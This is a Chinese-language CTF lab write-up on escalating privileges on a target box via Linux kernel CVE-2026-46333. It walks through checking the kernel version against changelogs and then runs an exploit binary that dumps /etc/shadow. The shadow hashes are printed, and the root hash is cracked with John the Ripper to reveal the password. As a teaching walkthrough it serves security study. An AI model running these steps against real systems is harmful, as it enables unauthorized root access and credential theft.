






前面的都太简单了，我不想再复现，重点说说后面的内核漏洞提权。

## 提权 `(CVE-2026-46333)`

`手工判断 Linux 内核 是否存在未修复漏洞 的 命令小清单`，这里就以该靶机为例子。

```sh
uname -r # 查看正在运行的内核版本
HGBE@Maze:~$ uname -r
7.0.7-1-liquorix-amd64
dpkg -l | grep -Ei 'linux-(image|headers)|liquorix' # 查看对应的内核包
HGBE@Maze:~$ dpkg -l | grep -Ei 'linux-(image|headers)'
ii  linux-headers-7.0.5-1-liquorix-amd64 7.0-4.1~trixie                       amd64        Header files for Linux 7.0.5-1-liquorix-amd64
ii  linux-headers-7.0.7-1-liquorix-amd64 7.0-7.1~trixie                       amd64        Header files for Linux 7.0.7-1-liquorix-amd64
ii  linux-headers-liquorix-amd64         7.0-7.1~trixie                       amd64        Linux headers for liquorix on 64-bit PCs
ii  linux-image-7.0.5-1-liquorix-amd64   7.0-4.1~trixie                       amd64        Linux 7.0 for 64-bit PCs
ii  linux-image-7.0.7-1-liquorix-amd64   7.0-7.1~trixie                       amd64        Linux 7.0 for 64-bit PCs
ii  linux-image-liquorix-amd64           7.0-7.1~trixie                       amd64        Linux image for liquorix on 64-bit PCs
```

该靶机装了两个内核包：

* `linux-image-7.0.5-1-liquorix-amd64 `
* `linux-image-7.0.7-1-liquorix-amd64`

下面是对应头文件包：

* `linux-headers-7.0.5-1-liquorix-amd64`
* `linux-headers-7.0.7-1-liquorix-amd64`

当前正在运行的内核版本：`7.0.7-1-liquorix-amd64`，所以这里只需要查看`linux-image-7.0.7-1-liquorix-amd64`：

```sh
zcat /usr/share/doc/linux-image-$(uname -r)/changelog.* | sed -n '1,120p' # 查看最近更新
HGBE@Maze:~$ zcat /usr/share/doc/linux-image-7.0.7-1-liquorix-amd64/changelog* | sed -n "1,120p"
linux-liquorix (7.0-7.1~trixie) trixie; urgency=medium

  * merge v7.0.7
  * apply another wake affine optimization for Project-C
   - sched/alt: Skip wake_affine_idle() sync stack when prev_cpu == this_cpu
  * update version to 7.0.7-1

 -- Steven Barrett <steven@liquorix.net>  Thu, 14 May 2026 10:22:20 -0500

linux-liquorix (7.0-6) unstable; urgency=medium

  * merge v7.0.6
  * update version to 7.0.6-1

 -- Steven Barrett <steven@liquorix.net>  Mon, 11 May 2026 12:43:59 -0500

linux-liquorix (7.0-5) unstable; urgency=medium

  * apply more TTWU optimizations for Project-C
   - sched/alt: Keep wakee on idle, cache-affine prev_cpu
  * update version to 7.0.5-2

 -- Steven Barrett <steven@liquorix.net>  Fri, 08 May 2026 14:09:46 -0500

linux-liquorix (7.0-4) unstable; urgency=medium

  * merge v7.0.5
  * apply TTWU optimizations for Project-C
   - sched/alt: Cache LLC size as per-CPU sd_llc_size
   - sched/alt: Add wake_wide() to gate WF_SYNC affine wakeups
   - sched/alt: Align wake_wide() placement with mainline
  * update version to 7.0.5-1

 -- Steven Barrett <steven@liquorix.net>  Fri, 08 May 2026 10:32:27 -0500

linux-liquorix (7.0-3) unstable; urgency=medium

  * add stability fix for Project-C
   - sched/alt: Fix rseq switch event target
  * update version to 7.0.4-2

 -- Steven Barrett <steven@liquorix.net>  Thu, 07 May 2026 18:00:03 -0500

linux-liquorix (7.0-2) unstable; urgency=medium

  * merge v7.0.4
  * sync lockup and hung task detection config from Zen Kernel
  * update version to 7.0.4-1

 -- Steven Barrett <steven@liquorix.net>  Thu, 07 May 2026 16:15:29 -0500

linux-liquorix (7.0-1) unstable; urgency=medium

  * switch to v7.0
  * merge v7.0.3
  * update version to 7.0.3-1

 -- Steven Barrett <steven@liquorix.net>  Thu, 07 May 2026 07:16:06 -0500

linux-liquorix (6.19-12) unstable; urgency=medium

  * backport changes in 7.0.3
   - xen/privcmd: fix double free via VMA splitting
   - Buffer overflow in drivers/xen/sys-hypervisor.c
  * add patch resolve CVE-2026-31431
   - crypto: algif_aead - Revert to operating out-of-place
  * update version to 6.19.14-2

 -- Steven Barrett <steven@liquorix.net>  Thu, 30 Apr 2026 12:49:23 -0500

linux-liquorix (6.19-11) unstable; urgency=medium

  * merge v6.19.14
  * update version to 6.19.14-1

 -- Steven Barrett <steven@liquorix.net>  Wed, 22 Apr 2026 13:48:51 -0500

linux-liquorix (6.19-10) unstable; urgency=medium

  * merge v6.19.13
  * sync upstream scheduler changes to Project-C
   - sched/alt: Mark update_rq_clock() __always_inline to match mainline
   - sched/alt: Mark wakeup_preempt() __always_inline to match mainline
   - sched/alt: Mark update_curr() __always_inline to match mainline
   - sched/alt: Mark sched_rq_next_task() __always_inline to match mainline
  * update version to 6.19.13-1

 -- Steven Barrett <steven@liquorix.net>  Mon, 20 Apr 2026 11:27:26 -0500

linux-liquorix (6.19-9) unstable; urgency=medium

  * merge v6.19.12
  * add dmemcg v6 patch set for low VRAM systems
  * update version to 6.19.12-1

 -- Steven Barrett <steven@liquorix.net>  Wed, 15 Apr 2026 17:02:07 -0500

linux-liquorix (6.19-8) unstable; urgency=medium

  * add optimization for stress-ng context switching
   - sched/alt: Add wake_affine_idle() for WF_SYNC wakeups
  * update version to 6.19.11-2

 -- Steven Barrett <steven@liquorix.net>  Sat, 04 Apr 2026 12:02:51 -0500

linux-liquorix (6.19-7) unstable; urgency=medium

  * merge v6.19.11
  * update version to 6.19.11-1

 -- Steven Barrett <steven@liquorix.net>  Fri, 03 Apr 2026 10:53:49 -0500

linux-liquorix (6.19-6) unstable; urgency=medium

  * sync upstream scheduler changes to Project-C
   - entry: Split generic entry into generic exception and syscall entry
   - sched: Match __task_rq_{,un}lock()
   - sched/mmcid: Optimize transitional CIDs when scheduling out
  * update version to 6.19.10-2
```

最近的一次更新是：` -- Steven Barrett <steven@liquorix.net>  Thu, 14 May 2026 10:22:20 -0500`，`merge v7.0.7`。

```sh
zgrep -niE 'CVE|security' /usr/share/doc/linux-image-$(uname -r)/changelog* 2>/dev/null | head -n 50
HGBE@Maze:~$ zgrep -niE 'CVE|security' /usr/share/doc/linux-image-$(uname -r)/changelog* 2>/dev/null | head -n 50
65:  * add patch resolve CVE-2026-31431
1627:  * restore security config to before 6.5-15
1664:  * disable CONFIG_SECURITY_LOADPIN
1671:  * update kernel security to match Debian upstream
2348:  * add netfilter fix - CVE-2023-0179
2584:   - CVE-2022-41674: fix u8 overflow in cfg80211_update_notlisted_nontrans
2585:   - CVE-2022-42719: wifi: mac80211: fix MBSSID parsing use-after-free
2586:   - CVE-2022-42720: wifi: cfg80211: fix BSS refcounting bugs
2587:   - CVE-2022-42721: wifi: cfg80211: avoid nontransmitted BSS list corruption
2588:   - CVE-2022-42722: wifi: mac80211: fix crash in beacon protection for P2P-device
2616:  * disable lockdown security subsystem
4221:    - Enable CONFIG_SECURITY_{SMACK, TOMOYO, LOADPIN}
4222:    - Sync remaining top level security options from Arch
4240:    - Disable SECURITY_LOADPIN
```

 最近一次修复的是`CVE-2026-31431`，`copyfail`漏洞。

接下来就是根据 `版本号 + 包 changelog + 发行版安全报告`查看具体信息：

`https://security-tracker.debian.org/`，查看最新的内核漏洞到底在哪个内核版本受影响。

`Debian` 不同发行分支的代号：

* `sid` : `unstable, 开发中的滚动分支，包最新，也最容易先拿到新内核和新修复，它永远是 unstable 代号，不会随着版本号更换`。
* `trixie`: `Debian 13, 当前稳定代号附近的正式发行分支`。
* `bookworm` : `Debian 12, 上一代稳定版`。
* `forky` : `Debian 14的开发代号`。



* `sid` : 这条线修复到 ` 7.0.7-1`。
* `trixie` : 这条线修复到 `6.12.88-1`。
* `bookworm` : 这条线修复到 `6.1.172-1`。

这一步的目的：`Debian哪个发行版受影响，哪个包版本修了`。

本机的内核不是 `Debian` 原版，是`Liquorix 7.0.7`。

`https://www.kernel.org/`，查看stable版本线：



看到7.0.8，查看其日志:



在`7.0.8`，`CVE-2026-46333`才被修复，`7.0.8是修复点`，`< 7.0.8`可能在受影响的范围内。

这是从上游`stable`角度得出的结论。

`https://liquorix.net/`查看该系统的更新日志：





```
<?xml version="1.0" encoding="us-ascii"?>
<feed xmlns="http://www.w3.org/2005/Atom"><entry><id>1778884033</id><title>linux-liquorix (7.0-8.1~sid)</title><author><name>Steven Barrett </name><email>steven@liquorix.net</email></author><category term="linux-liquorix"/><summary type="html"><![CDATA[<pre>   * merge v7.0.8
   * update version to 7.0.8-1</pre>]]></summary><updated>2026-05-15T17:27:13Z</updated></entry><entry><id>1778772140</id><title>linux-liquorix (7.0-7)</title><author><name>Steven Barrett </name><email>steven@liquorix.net</email></author><category term="linux-liquorix"/><summary type="html"><![CDATA[<pre>   * merge v7.0.7
```

该靶机还停留在`linux-liquorix (7.0-7.1~trixie)`，而`merge v7.0.8`才`update version to 7.0.8-1`。

所以把三处信息串起来：

```
- 上游 stable**：7.0.8 开始修复
- Liquorix 7.0-7.1~trixie：只合并到 v7.0.7
- Liquorix 7.0-8.1~sid：才合并到 v7.0.8
```

所以可以肯定 受 `CVE-2026-46333`的影响。

## 利用

```sh
HGBE@Maze:~$ ls -al
total 4196
drwxr-xr-x 5 HGBE HGBE    4096 May 16 20:28 .
drwxr-xr-x 6 root root    4096 May 15 22:42 ..
drwxrwxr-x 2 HGBE HGBE    4096 May 16 08:40 05pack2theroot
drwxrwxr-x 3 HGBE HGBE    4096 May 16 19:11 09key-sign-pwn
-rw-rw-r-- 1 HGBE HGBE   80577 May  3 07:54 10000.txt
-rw------- 1 HGBE HGBE    3745 May 16 20:32 .bash_history
-rw-r--r-- 1 HGBE HGBE     220 May 15 22:38 .bash_logout
-rw-r--r-- 1 HGBE HGBE    3526 May 15 22:38 .bashrc
-rw-rw-r-- 1 HGBE HGBE     168 May  3 07:55 generate_by_username.sh
drwx------ 2 HGBE HGBE    4096 May 16 08:53 .gnupg
-rw-rw-r-- 1 HGBE HGBE       0 May 16 08:46 john_passwords.txt
-rw------- 1 HGBE HGBE      20 May 16 20:28 .lesshst
-rwxrwxr-x 1 HGBE HGBE 1046034 May  3 07:51 lin2026.sh
-rw-rw-r-- 1 HGBE HGBE    3605 May  3 07:55 muban.key
-rw-r--r-- 1 HGBE HGBE     807 May 15 22:38 .profile
-rwxrwxr-x 1 HGBE HGBE 3104768 May  3 07:52 pspy64
-rw-rw-r-- 1 HGBE HGBE       7 May 16 08:37 .python_history
-rwxrwxr-x 1 HGBE HGBE     383 May  3 07:52 subrute.sh
-rw-r--r-- 1 root root      44 May 15 22:41 user.txt
HGBE@Maze:~$ cd 09key-sign-pwn/
HGBE@Maze:~/09key-sign-pwn$ ls -al 
total 24
drwxrwxr-x 3 HGBE HGBE 4096 May 16 19:11 .
drwxr-xr-x 5 HGBE HGBE 4096 May 16 20:28 ..
-rw-rw-r-- 1 HGBE HGBE 9764 May 15 17:31 read.c
drwxrwxr-x 3 HGBE HGBE 4096 May 16 19:11 ssh-keysign-pwn
HGBE@Maze:~/09key-sign-pwn$ cd ssh-keysign-pwn/
HGBE@Maze:~/09key-sign-pwn/ssh-keysign-pwn$ ls -al
total 5712
drwxrwxr-x 3 HGBE HGBE    4096 May 16 19:11 .
drwxrwxr-x 3 HGBE HGBE    4096 May 16 19:11 ..
-rwxrwxr-x 1 HGBE HGBE  779432 May 15 17:25 chage_pwn
-rw-rw-r-- 1 HGBE HGBE    1947 May 15 17:24 chage_pwn.c
-rw-rw-r-- 1 HGBE HGBE 1634471 May 15 17:24 demo.gif
-rw-rw-r-- 1 HGBE HGBE  981675 May 15 17:24 demo.mp4
-rw-rw-r-- 1 HGBE HGBE  814656 May 15 17:25 exploit_vuln_target
-rw-rw-r-- 1 HGBE HGBE    1683 May 15 17:24 exploit_vuln_target.c
drwxrwxr-x 7 HGBE HGBE    4096 May 16 19:11 .git
-rw-rw-r-- 1 HGBE HGBE      61 May 15 17:24 .gitignore
-rw-rw-r-- 1 HGBE HGBE    1033 May 16 19:11 index.html
-rw-rw-r-- 1 HGBE HGBE     380 May 15 17:25 Makefile
-rw-rw-r-- 1 HGBE HGBE    1721 May 15 17:24 README.md
-rw-rw-r-- 1 HGBE HGBE  779520 May 15 17:25 sshkeysign_pwn
-rw-rw-r-- 1 HGBE HGBE    2458 May 15 17:24 sshkeysign_pwn.c
-rw-rw-r-- 1 HGBE HGBE  798808 May 15 17:25 vuln_target
-rw-rw-r-- 1 HGBE HGBE     522 May 15 17:24 vuln_target.c
HGBE@Maze:~/09key-sign-pwn/ssh-keysign-pwn$ ./chage_pwn root
fd 5 -> /etc/shadow (round=42 try=5247)
root:$1$ruYlbiCu$mBcGHz1E10Io.PT.JVnml0:20568:0:99999:7:::
daemon:*:20568:0:99999:7:::
bin:*:20568:0:99999:7:::
sys:*:20568:0:99999:7:::
sync:*:20568:0:99999:7:::
games:*:20568:0:99999:7:::
man:*:20568:0:99999:7:::
lp:*:20568:0:99999:7:::
mail:*:20568:0:99999:7:::
news:*:20568:0:99999:7:::
uucp:*:20568:0:99999:7:::
proxy:*:20568:0:99999:7:::
www-data:*:20568:0:99999:7:::
backup:*:20568:0:99999:7:::
list:*:20568:0:99999:7:::
irc:*:20568:0:99999:7:::
_apt:*:20568:0:99999:7:::
nobody:*:20568:0:99999:7:::
systemd-network:!*:20568:::::1:
dhcpcd:!:20568::::::
systemd-timesync:!*:20568:::::1:
messagebus:!*:20568::::::
sshd:!*:20568::::::
HGBE:$y$j9T$6s8e/tmZzXrU4OrSoRLon0$KZP4gL2mULtpnfaPi5lkgxENm7XsJyxZsFfNiOK8XG0:20589:0:99999:7:::
ll104567:$y$j9T$DsJIEsWyKmgsyfagD.NiU/$O2iv6sfA1EaKiBMGd5z2Q1M3nZWX3Uyzr.FkgSQz9G.:20589:0:99999:7:::
mono:$y$j9T$UR5AFwviu9GhcPHEyJm8m/$PZX86ZOVLxDHM8qtf4j/D7byiFaEl7g5XrcJGrr54e5:20589:0:99999:7:::
lzh:$y$j9T$4Hb4MDqV5X/eYrwX20DG/.$L83CJ2ClORTxjovzJhO9YpSFbTitH.IKJTAc.Q76rEA:20589:0:99999:7:::
```

`root:$1$ruYlbiCu$mBcGHz1E10Io.PT.JVnml0:20568:0:99999:7::: `写入到`/tmp/123/passwords`

```sh
root@kali:/tmp/123# vim passwords   
root@kali:/tmp/123# john --wordlist=/usr/share/wordlists/rockyou.txt passwords --format=md5crypt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
juju01           (root)     
1g 0:00:00:02 DONE (2026-05-16 19:24) 0.3367g/s 67296p/s 67296c/s 67296C/s karmann..jrotc1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

密码是：`juju01 `。


